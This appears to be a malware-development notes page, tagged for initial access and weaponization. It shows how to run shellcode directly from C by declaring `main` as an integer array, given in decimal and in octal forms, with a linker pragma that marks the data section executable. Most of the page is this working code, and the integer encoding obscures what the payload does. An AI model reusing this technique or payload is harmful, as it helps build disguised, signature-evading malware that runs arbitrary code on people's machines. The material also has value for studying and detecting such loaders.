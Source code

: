 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - malware-development
credits:
  - osanda
---
```

# Number Bases (Radixes)

## Decimals

```
#pragma comment(linker,"/SECTION:.data,EW")
int main[] = {
	-1869574000, -1869574000, -1956324559, 2139828347,
	478120716, -1962391669, 1066082423, 856456832,
	-947260811, -1958971389, -1040091049, 18905739,
	-1948415545, -972968140, 1128169797, 1969317234,
	142508530, 1936024431, 2055989621, 1724317988,
	-1955648373, -956228486, -55608181, -645282047,
	-497811535, 1633904893, -494312596, 1397969490,
	1397969747, -671132846
};
```

## Octals

```
#pragma comment(linker,"/SECTION:.data,EW")
int main[] = {
	022044110220, 022044110220, 021331155461, 017742630173,
	03437705414, 021302043613, 07742620167, 06303077200,
	030742371165, 021317074003, 030200274127, 0110075213,
	021367304707, 030600327464, 010317500505, 016530262562,
	01037500762, 016331261557, 017242764565, 014661600444,
	021333626213, 030700216172, 037453676213, 033142343401,
	034224777661, 014130664375, 034242261554, 012324651122,
	012324651523, 032777651522
};
```

---
## References

### Osanda

- [Osanda: Running Shellcode Directly in C](https://osandamalith.com/2019/08/27/running-shellcode-directly-in-c/)